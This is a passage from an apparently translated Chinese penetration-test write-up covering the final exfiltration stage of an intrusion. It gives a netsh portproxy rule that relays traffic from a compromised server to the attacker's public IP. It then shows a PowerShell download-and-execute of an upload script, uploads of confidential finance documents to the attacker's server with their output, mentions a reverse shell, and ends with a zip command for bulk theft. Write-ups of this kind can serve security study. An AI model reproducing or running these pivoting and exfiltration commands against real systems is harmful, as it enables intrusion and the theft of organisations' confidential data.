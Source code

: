 接下来需要的就是一个带有文件上传功能的HTTP客户端了。[**Google一番**](http://blog.majcica.com/2016/01/13/powershell-tips-and-tricks-multipartform-data-requests/)，发现了一个极佳的Powershell脚本，于是上传到了SRVWSUS，命名为upload.ps1

要传送文件，就必须建立一个连接，在SRVWSUS上添加一条新的端口转发规则，这次在8889端口：



```
# SRVFILE1 &lt;-&gt; SRVWSUS:8889 &lt;-&gt; ATTACKER:80
interface portproxy add v4tov4 listenport=8889 listenaddress=0.0.0.0 connectport=80 connectaddress=&lt;OUR_PUBLIC_IP&gt;
```

设置好之后，就在SRVFILE1下载和执行了HTTP上传脚本。请注意，文件从SRVWSUS的8889端口下载，该端口映射到了我们服务器上PHP运行的80端口。我们的443端口映射的是SRVWSUS的8888端口，反向shell从那里接收命令。



```
PS C:tmp&gt;(New-Object Net.WebClient).DownloadFile(‘http://&lt;SRVWSUS_IP&gt;:8889/up.ps1′,’c:tmpupload.ps1’)
PS C:tmp&gt;. .upload.ps1
PS C:tmp&gt; invoke-upload -infile f:financereservedSupersecret.docx -uri http://&lt;SRVWSUS_IP&gt;:8889/
content:System.Net.Http.StreamContent
DONE
PS C:tmp&gt; invoke-upload -infile f:financereservedbalance.xlsx -uri http://&lt;SRVWSUS_IP&gt;:8889/
content:System.Net.Http.StreamContent
DONE
```

[![](./img/85961/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t018e47b23fcb42c9e8.png)

成功将机密文件转窃取到了我们的web服务器，任务完成！

这次我们没有发现什么太大的文件，如果有的话，可以用zip压缩他们，powershell命令如下：



```
$src= “f:finance”
$dst= “c:tmpfiles.zip”
[Reflection.Assembly]::LoadWithPartialName(“System.IO.Compression.FileSystem”)
[System.IO.Compression.ZipFile]::CreateFromDirectory($src,$dst,[System.IO.Compression.CompressionLevel]::Optimal,$true)
```
